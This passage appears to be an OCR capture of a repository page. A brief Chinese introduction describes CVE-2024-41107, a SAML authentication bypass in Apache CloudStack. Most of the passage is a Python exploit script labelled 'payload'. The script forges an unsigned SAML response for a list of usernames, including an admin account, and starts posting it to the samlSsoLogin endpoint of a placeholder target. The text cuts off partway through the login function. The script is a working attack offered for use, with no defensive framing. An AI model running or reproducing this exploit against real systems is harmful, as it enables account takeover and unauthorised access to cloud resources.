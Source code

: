 Apache软件基金会发布了一则关于其开源云计算平台Apache CloudStack的严重漏洞（CVE-2024-41107）的安全公告。此漏洞影响安全断言标记语言（SAML）认证机制，可能允许攻击者绕过认证，获得对用户账户和资源的未授权访问。  
### 1.1.2payload  
```
import requests
from bs4 import BeautifulSoup
from datetime import datetime, timedelta
import xml.etree.ElementTree as ET
import base64
import logging

# Setup logging
logging.basicConfig(filename='exploit.log', level=logging.INFO, format='%(asctime)s - %(message)s')

# URL of the login endpoint
url = "http://target-cloudstack-instance.com/client/api"

# Function to generate dynamic SAML response
def generate_saml_response(username):
    issue_instant = datetime.utcnow().strftime('%Y-%m-%dT%H:%M:%SZ')
    not_on_or_after = (datetime.utcnow() + timedelta(hours=1)).strftime('%Y-%m-%dT%H:%M:%SZ')
    
    saml_response = f"""
    <samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ID="_8f0d8b57b7b34a1a8f0d8b57b7b34a1a" Version="2.0" IssueInstant="{issue_instant}" Destination="{url}">
        <saml:Issuer>http://your-saml-issuer.com</saml:Issuer>
        <samlp:Status>
            <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
        </samlp:Status>
        <saml:Assertion Version="2.0" ID="_abc123" IssueInstant="{issue_instant}">
            <saml:Issuer>http://your-saml-issuer.com</saml:Issuer>
            <saml:Subject>
                <saml:NameID Format="urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress">{username}</saml:NameID>
                <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                    <saml:SubjectConfirmationData NotOnOrAfter="{not_on_or_after}" Recipient="{url}"/>
                </saml:SubjectConfirmation>
            </saml:Subject>
            <saml:Conditions NotBefore="{issue_instant}" NotOnOrAfter="{not_on_or_after}">
                <saml:AudienceRestriction>
                    <saml:Audience>{url}</saml:Audience>
                </saml:AudienceRestriction>
            </saml:Conditions>
            <saml:AuthnStatement AuthnInstant="{issue_instant}" SessionIndex="_abc123">
                <saml:AuthnContext>
                    <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml:AuthnContextClassRef>
                </saml:AuthnContext>
            </saml:AuthnStatement>
        </saml:Assertion>
    </samlp:Response>
    """
    return base64.b64encode(saml_response.encode('utf-8')).decode('utf-8')

# List of usernames to attempt access
usernames = ["user1@example.com", "user2@example.com", "admin@example.com"]

# Function to attempt login with SAML response
def attempt_login(saml_response):
    data = {
        "command": "samlSsoLogin",
```